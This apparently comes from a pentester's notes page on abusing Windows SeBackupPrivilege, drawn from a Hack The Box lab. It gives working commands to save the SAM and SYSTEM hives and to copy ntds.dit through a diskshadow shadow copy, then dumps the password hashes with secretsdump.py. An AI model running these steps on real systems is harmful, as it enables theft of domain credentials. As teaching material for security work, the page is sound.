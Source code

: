 # SeBackupPrivilege and SeRestorePrivilege 

* Check with: `whoami /priv`

If we are **SeBackupPrivilege** and **SeRestorePrivilege** we can basically backup (copy) any file we want, ignoring file permissions, making us as powerful as SYSTEM.

In order to use this awesome copying power we need to act as a backup tool, the regular copy command won't work.


## Backup copying

* Source: https://github.com/giuliano108/SeBackupPrivilege

**Note:** The pre-compiled dll's are x64

Howto:
```default
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege .\restricted_file.txt c:\temp\stolen.txt -Overwrite
```

The `Set-SeBackupPrivilege` command will set our backup privs to "enabled" if there were "disabled" before.


## Diskshadow and Active directory

The Security Account Manager (SAM) manages user account security on Windows. The usernames and hashes of all users are stored in the three registry hives: SAM, SYSTEM and SECURITY.


I am not 100% sure on this, but at least on one box (htb blackfield) I could also just export sam and system as a non-admin, without having to use backup copying:

```default
reg save hklm\sam .\sam
reg save hklm\system  .\system 
download sam
download system
secretsdump.py -system system -sam sam LOCAL
# ... will print local accounts and their password hashes
```

I am not 100% sure whether that is because of SeBackupPrivilege or just a pecularity of that box.

Exporting SAM and SYSTEM worked, but exporting the SECURITY hive did not work though (access denied), so I only got local user hashes out of this (this machine was an AD Domain Controller).

In order to get Active Directory creds I needed to debug-copy the ntds.dit file (C:\Windows\NTDS\ntds.dit). But when I tried to copy it via the above method (Copy-FileSeBackupPrivilege) I got an error telling me the file was busy.

In order to circumvent this, we need to use a disk shadow copy.


Create an ascii text file "command":

```default
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:

```

Make sure to save it with windows line endings (CRLF). Transfer it to the target.

You have to be in a writable location (e.g. a TEMP directory. On PS you can try `cd $env:TEMP`):

```powershell
diskshadow.exe /s .\command
```

The output should look somewhat like this:
```powershell
*Evil-WinRM* PS C:\Users\svc_backup\AppData\Local\Temp\blub> diskshadow.exe /s .\command
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  12/22/2020 11:37:47 AM

-> set context persistent nowriters
-> add volume c: alias temp
-> create
Alias temp for shadow ID {43818beb-b876-4613-ba1e-dda50f5a3ab4} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {341715d3-421e-44a6-9166-af293673b98c} set as environment variable.

Querying all shadow copies with the shadow copy set ID {341715d3-421e-44a6-9166-af293673b98c}

        * Shadow copy ID = {43818beb-b876-4613-ba1e-dda50f5a3ab4}               %temp%
                - Shadow copy set: {341715d3-421e-44a6-9166-af293673b98c}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 12/22/2020 11:37:47 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %temp% z:
-> %temp% = {43818beb-b876-4613-ba1e-dda50f5a3ab4}
The shadow copy was successfully exposed as z:\.
->
```

Now you can just copy the file from the mirror disk:
```powershell
Copy-FileSeBackupPrivilege z:\Windows\NTDS\ntds.dit .\ntds.dit
```

Download it to your machine and use secretsdump.py again:
```powershell
secretsdump.py -system system -ntds ntds.dit LOCAL
```

It should dump all the domain users as well.
